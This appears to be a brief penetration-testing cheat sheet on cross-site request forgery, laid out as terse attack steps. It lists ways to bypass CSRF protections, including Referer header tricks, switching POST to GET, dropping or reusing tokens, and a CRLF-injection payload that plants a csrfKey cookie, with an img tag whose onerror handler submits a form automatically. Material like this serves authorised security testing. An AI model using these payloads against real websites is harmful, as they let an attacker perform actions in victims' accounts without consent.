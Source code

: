 <h1>Cross-site request forgery (CSRF)</h1>
<h3>Test first:</h3>
<p><code>Referrer: https://example.com</code></p>
<p>if:</p>
<p>"Invalid referrer header" so:</p>
<p><code>Referrer-Policy: unsafe-url</code></p>
<p>"Invalid referrer validation" so:</p>
<p><code><meta name="referrer" content="no-referrer"></code></p>
<p>else:</p>
<p>csrf without csrf protection - EZ</p>
<p>csrf validation depends on request method  - Change post to get</p>
<p>csrf delete csrf parameter or value.</p>
<p>csrf - drop request and test the token in other session </p>
<p>csrf + crlf - /?search=test%0d%0aSet-Cookie:%20csrfKey=your-key</p>
<p><code><img src="https://domain/?search=test%0d%0aSet-Cookie:%20csrfKey=your-key" onerror="document.forms[0].submit()"></code></p>

